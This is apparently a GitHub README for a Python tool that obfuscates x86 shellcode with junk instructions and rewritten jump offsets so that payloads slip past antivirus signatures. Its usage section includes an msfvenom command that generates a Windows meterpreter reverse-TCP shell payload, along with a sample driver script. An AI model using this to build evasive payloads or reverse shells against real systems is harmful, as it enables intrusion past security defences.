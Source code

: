 ## Disclamer
It's only for education purpases. I mean, you can try to understand what is going on here, but I strongly do not recommend XD
Actually i would be glad to any suggestions

## Intro
Shellcode has several key differences compared to usial assembly:
* Only relative addresses, without absolute addressing
* No variables and links (it's absolute addressing), only direct saving values to registers or something
* All shellcode bytes without special chars, ex. 0x00, 0x0a (not always)
Therefore, shellcode can work in any injections without connection to injected code

## Description
This stuff should obfuscate generated shellcode without manual instructions change

Python script doing next things:
* Take random x86 shellcode
* Paste garbage instructions, such nops, jumps and random data inside this new jumps without.
* Correnting all relative addresses in all jumps, calls, and other opcodes with EIP changing.

![pythonfuscator](https://github.com/user-attachments/assets/f9012567-7fcd-4842-890f-63b3a74abcd3)


Others VS projects only needs for shellcode injection. Please, use anything but them.

## Usage
1. Create any shellcode with specific format. For example:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f raw  | pwn disasm | sed 's/^[ \t]*[0-9a-z]*:[ \t]*//g' | sed 's/[ \t]\{2,\}.*//g' > msf.raw
```
2. Change file path in main.py. you can choose ofcuscation methods and interations number. Also change it in main.py. main.py example:
```python
import shell_bytes
shellcode = shell_bytes.ShellBytes('../rev.hex')
print('Was ', len(shellcode.get_payload()), ' instructions')
shellcode.expand_offsets()
shellcode.add_garbage_instructions_after_each_instruction_with_jmp()
print('Now ', len(shellcode.get_payload()), ' instructions')
shellcode.compile('./resources/my_payload.raw')
```
3. That's all. I don't think the logic has been changed, unless it was sgn.

Yes, i know that AV and EDR can easy detect NOPs and JMPs signature. But the concept itself works, and it may be applied for more difficult examples, such as shellcode shuffling
